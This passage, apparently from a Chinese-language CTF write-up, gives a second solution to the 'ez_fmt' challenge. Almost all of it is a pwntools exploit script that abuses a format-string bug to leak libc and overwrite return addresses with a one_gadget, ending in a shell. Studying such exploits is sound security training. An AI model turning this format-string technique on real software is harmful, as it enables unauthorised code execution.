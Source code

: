 ```python
    else:
        p.close()
        continue
    p.interactive()

```

![image-20231216113044144](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111725.png)

![image-20231216113047514](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111726.png)

#### 解法二

利用格式化字符串漏洞篡改printf 函数的返回地址为start，同时泄露libc，这样就不会修改w为0，然后第二次格式化字符串漏洞修改返回地址为one gadget。

```python
from pwn import*
context.arch='amd64'
context.log_level='debug'
#p=remote("chals.sekai.team",4001)

#libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def mydbg():
    gdb.attach(p,"b *0x401239")
    pause()

p=process("./ez_fmt")
ru("There is a gift for you ")
stack_addr=int(ru("\n"),16)
lg("stack_addr")
w_addr=0x0404010 
ret_addr=stack_addr-0x8
start_addr=0x4010B0
lg("ret_addr")
payload="%19$p"+"%"+str((start_addr&0xfffff)-14)+"c"+"%9$hn"
payload=payload.encode().ljust(0x18,b"a")+p64(ret_addr)

sl(payload)
libc_base=int(rn(14),16)-0x24083
lg("libc_base")
one_gadgt=0xe3b01+libc_base

ru("There is a gift for you ")

ret1_addr=stack_addr-0xe8
lg("one_gadgt")
payload="%"+str(one_gadgt&0xff)+"c"+"%10$hhn"+"%"+str(((one_gadgt>>8)&0xffff)-(one_gadgt&0xff))+"c%11$hn"
payload=payload.encode().ljust(0x20,b"a")+p64(ret1_addr)+p64(ret1_addr+1)
s(payload)
p.interactive()
```